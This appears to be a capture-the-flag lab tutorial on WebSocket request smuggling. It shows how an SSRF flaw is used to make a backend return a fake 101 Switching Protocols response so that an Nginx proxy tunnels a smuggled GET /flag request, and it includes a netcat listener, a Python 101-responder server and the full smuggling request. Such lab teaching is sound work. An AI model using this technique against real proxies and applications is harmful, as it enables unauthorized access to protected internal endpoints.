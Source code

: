 # Upgrading our Proxy

So far, we've been working with a proxy that won't check the web server's response to determine whether the WebSocket upgrade was successful. In this task, we'll replace the vulnerable Varnish proxy with an Nginx proxy that checks responses before tunneling requests through a WebSocket connection. The backend application will still have the `/socket` endpoint enabled with WebSockets and the `/flag` endpoint as our target. The new application can be accessed via `http://10.10.235.172:8002/`.

First, let's try running the payload we used in the previous task to see if it works:

## Testing our payload with Nginx as a proxy

Notice how Nginx won't leak the flag despite getting a 426 response for the initial WebSocket upgrade attempt. Since Nginx is checking the response code of the upgrade, it can determine that no valid WebSocket connection was established; therefore, it won't allow us to smuggle the `/flag` request.

You are free to try the second payload presented in the previous task, but you should obtain similar results.

## Tricking the Proxy

Since we can't just smuggle requests anymore, we need to find a way to trick the proxy into believing a valid WebSocket connection has been established. This means we need to somehow force the backend web server to reply to our upgrade request with a fake 101 Switching Protocols response without actually upgrading the connection in the backend.

While we won't be able to do this for all applications, if our target app has some vulnerability that allows us to proxy requests back to a server we control as attackers, we might be able to inject the 101 Switching Protocols response to an arbitrary request. In these special cases, we should be able to smuggle requests through a fake WebSocket connection again.

## Faking a WebSocket by leveraging SSRF

### Leveraging SSRF

In this task's application, we will take advantage of an SSRF vulnerability to simulate a fake WebSocket upgrade. After a quick inspection, we can see that the application allows us to test the status of a URL. Each time we input a URL, the server will make a request to `http://10.10.235.172:8002/check-url?server=<url>` and return the status code from the corresponding response:

### Taking advantage of SSRF

We can use `nc` in our AttackBox to check if we can direct a request to ourselves. We should get a response similar to this one:

```bash
AttackBox
user@attackbox$ nc -lvp 5555
Listening on 0.0.0.0 5555
Connection received on 10.10.235.172 52988
GET /test HTTP/1.1
Host: 10.10.11.155:5555
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

This means we can successfully use the SSRF vulnerability to influence the response of the backend server. All we need to do is spin up a web server that returns a 101 status, allowing us to fake a WebSocket upgrade.

### Setting up the Attacker's Web Server

We can quickly set up a web server that responds with status 101 to every request with the following Python code:

```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

Let's save the code to a file named `myserver.py` in our AttackBox and run it with the following command:

```bash
AttackBox
user@attackbox$ python3 myserver.py 5555
```

This should spin up a web server on port 5555 that will reply with a 101 status code to any request.

### Faking a WebSocket

We are finally ready to launch our payload. Let's use Burp's Repeater to send a request to `/check-url` against our malicious server. The request should look like this:

```http
GET /check-url?server=http://10.10.11.155:5555 HTTP/1.1
Host: 10.10.235.172:8002
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: 10.10.235.172:8002
```

If all goes as expected, you should get a request in your malicious web server and the flag value in Burp (note that you need to add two newlines at the end of your payload in Burp):

### Smuggling a request through a fake WebSocket connection

Remember that `/check-url` is not a WebSocket endpoint. We are just manipulating both the request and response that the proxy gets to make it believe this is a real WebSocket. This means that the proxy will tunnel the second request in our payload as if it were part of a WebSocket connection, but the backend will just process the request as HTTP since there's no WebSocket in reality.